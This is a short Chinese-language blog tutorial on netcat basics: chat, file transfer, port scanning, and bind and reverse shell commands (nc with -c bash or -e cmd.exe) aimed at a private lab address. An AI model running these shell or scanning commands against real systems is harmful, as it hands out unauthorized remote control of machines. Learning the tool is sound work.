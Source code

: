 ```yaml
---
layout: post
title:  "那什麼鬼 -- netcat 基礎用法"
date:   2021-10-06 09:12:10 +0800
author: "summer"
categories: 那什麼鬼
header-style: text
tags:
  - 那什麼鬼
  - linux
  - netcat
  - 網路
---
```

netcat 是一個多功能的網路工具，紀錄一下他的常用功能

## 即時對談

在要當 server 的機器 192.168.67.128 上執行

```bash
nc -l -p 12345
```

在 client 端執行

```bash
nc 192.168.67.128 12345
```

就能有簡單的交談功能

## 傳送檔案

在要接收檔案的機器上執行

```bash
nc -l -p 12345 > out.file
```

在要傳送檔案的機器上執行

```bash
nc -N 192.168.67.128 12345 < out.file
```

-N 是讀到時 EOF 結束連線

或

```bash
nc -w 3 192.168.67.128 12345 < out.file
```

-w 是設定 timeout 傳送完成後 3 三秒中止連線

如果要傳送多檔案，可以打包後再傳

## port scan

```bash
$nc -z -v -n 192.168.67.128 21-25
```

這會掃描目標位置的 21-25 port

-z 為不帶資料
-v 為顯示詳細
-n 為不進行解析

## get shell

如果你的 nc 沒有 -c -e ，可以安裝 nmap 使用其中的 ncat ，指令是一樣的

-c 為執行命令
-e 為執行程式

### linux

server

```bash
nc -lp 12334 -c bash
```

client

```bash
nc 192.168.67.128 12334
```

### windows

server

```bash
nc -lp 12334 -e cmd.exe
```

client

```bash
nc 192.168.67.128 12334
```

## Reverse Shell

### linux

server

```bash
nc -lp 12334
```

client

```bash
nc 192.168.67.128 12334 -c bash
```

### windows

server

```bash
nc -lp 12334
```

client

```bash
nc 192.168.67.128 12334 -e cmd.exe
```
